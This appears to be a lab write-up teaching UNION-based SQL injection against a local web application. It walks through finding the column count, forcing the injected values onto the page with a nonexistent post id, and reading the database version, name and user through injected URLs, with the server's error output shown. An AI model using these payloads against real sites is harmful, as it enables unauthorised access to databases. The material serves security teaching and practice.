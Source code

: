 # (b) Get database version, name and user

For getting database version you need to be able to get information out throuth the Web interface.
To do that you have to use the **UNION** statement of MySQL. But *there is a catch**: the UNION statement requieres that the number of columns in the first query to be the same that in the second query.
So you first have to identify the number of columns of a single post.
Watching the post is the first aproach for that. You can see for example tha the post title is a column, and others might be:
- creation date,
- user avatar,
- user name,
- post title,
- post body,
- the tags of the post.

At least 7 columns.
Then we can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7/slug-name-post'
```

And we get this error for response:
```javascript
{
  "status": "Error",
  "message": "ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT: The used SELECT statements have a different number of columns"
}
```

This error indicate that the number of columns is not correct. So we keep adding numbers until we stop getting this erros

```shell
http://localhost:8080/p/2 UNION SELECT 1,2,3,4,5,6,7,8,9/slug-name-post'
```

We can see that the right number of columns is 9. Great! 

Now all we have to do is getting the info we need out.

To do this we have to call a post with that not exist. May be postId=-1, or 10000, like this:
```shell
http://localhost:8080/p/-1 UNION SELECT 1,2,3,4,5,6,7,8,9/slug-name-post'
```

And we get all our numbers in the screen! This is great!
Ok, now for the **engine version** just replace one of the number with a query, like this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,version(),3,4,5,6,7,8,9/slug-name-post'
```

For the **database name** just replace one of the number with another query, like this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,database(),3,4,5,6,7,8,9/slug-name-post'
```

And finally, for the **user** you can do this:

```shell
http://localhost:8080/p/2 UNION SELECT 1,user(),3,4,5,6,7,8,9/slug-name-post'
```
